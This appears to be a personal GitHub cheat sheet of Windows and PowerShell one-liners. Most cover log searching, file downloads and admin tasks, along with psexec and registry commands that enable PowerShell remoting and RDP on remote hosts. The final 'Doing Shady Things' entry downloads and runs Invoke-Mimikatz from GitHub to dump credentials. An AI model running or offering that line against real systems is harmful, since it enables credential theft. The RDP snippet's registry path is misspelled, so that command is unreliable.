 # Command Line Kung-Fu
Some things I've picked up over the years.
## Parsing Stuff
Literal string match recursively from the root of the C: drive:
```
findstr /pinsc:"somestring" C:\*.txt
```
RegEx string match recursively in all text and xml files:
```
findstr /pinsr ^some.tring *.txt *.xml
```
Filtering Saved Windows Event Log Files With PowerShell
```
Get-WinEvent -Path "\\server\share\name-of-log.evt" -Oldest -FilterXPath "*[EventData[Data[@Name='TargetUserName'] = 'user.name']] or *[EventData[Data[@Name='Workstation'] = 'host-name']]"
```
And If You Wanna' Get Fancy
```
Get-WinEvent -Path "\\server\share\name-of-log.evt" -Oldest -FilterXPath "*[EventData[Data[@Name='TargetUserName'] = 'user.name']] or *[EventData[Data[@Name='Workstation'] = 'host-name']]" | Select-Object -Property TimeCreated,Id,ProviderName,LogName,TaskDisplayName,Message,ContainerLog | ConvertTo-Html -Property * -As Table -Title 'Something' -PreContent '<H1>UserName: user.name</H1><H2>Workstation: host-name</H2><H2>Date: MM/DD/YYYY</H2>' | Out-File -FilePath C:\Path\To\File.html
```
## Downloading Stuff
Like wget for older versions of PowerShell
```
(New-Object System.Net.WebClient).DownloadFile("https://www.contoso.com/file","C:\path\file")
```
Or wget for newer PowerShell
```
Invoke-WebRequest -Uri "http://www.contoso.com" -OutFile "C:\path\file"
```
## Doing Stuff Remotely
Enabling PsRemoting Remotely :-)
```
$NaughtyComputer = Read-Host "Please Enter The ComputerName:"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Enable-PSRemoting -Force"
Enter-PSSession -ComputerName $NaughtyComputer
```
Enabling RDP Remotely
```
$computerName = $env:COMPUTERNAME

$ExePath = 'C:\Windows\System32\reg.exe'

$RegKey = '\HKLM\SYSTEM\CurentControlSet\Control\Terminal Server'

$RemoteRegKeyString = '\\' + $ComputerName + $RegKey

[array] $InstallArgs = @(
	'add',
	$RemoteRegKeyString,
	'/v fDenyTSConnections',
	'/t REG_DWORD',
	'/d 0',
	'/f'
)

Start-Process -FilePath $ExePath -ArgumentList $InstallArgs -NoNewWindow -Wait | Out-Null
```
## Doing Things Iteratively
Getting  all the .msp files out of your windows Update .cab archives
```
Get-ChildItem -Path C:\Windows\SoftwareDistribution\Download\*.cab -Recurse | Select-Object -ExpandProperty FullName | ForEach-Object {expand.exe $_ -F:* C:\Updates\}
```
## Doing Shady Things
Dumping Some Creds
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds | Out-File "$($Env:TEMP)\output.txt"
```
